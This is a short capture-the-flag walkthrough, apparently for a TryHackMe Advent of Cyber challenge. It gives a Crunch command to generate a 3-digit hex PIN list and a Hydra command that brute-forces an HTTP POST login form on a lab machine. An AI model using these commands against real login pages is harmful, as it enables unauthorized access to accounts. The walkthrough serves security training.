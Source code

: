 If you follow the instructions from the TryHackMe page, you must create the password list with Crunch.
We need to do this because Hydra uses word lists to crack the passwords.

You can type the following command (I saved the file on the desktop to make my life easier)

`crunch 3 3 0123456789ABCDEF -o ~/Desktop/3digits.txt`

<img src="Media/Advent_day_3/img_3.jpg" height=50% width=50% >


## Step 2.

Now we are going to use Hydra.

Hydra will run on the background applying all the combinations in from our list until it finds the correct one.

You should use this command:

`hydra -l '' -P ~/Desktop/3digits.txt -f -v 10.10.39.240 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`

Now we have to wait for sometime ...

After some more time...

<img src="Media/Advent_day_3/img_4.jpg" height=50% width=50% >

Now use the code and you can find the flag!

# Until the next time! 🎅🏿🎅🏿🎅🏿
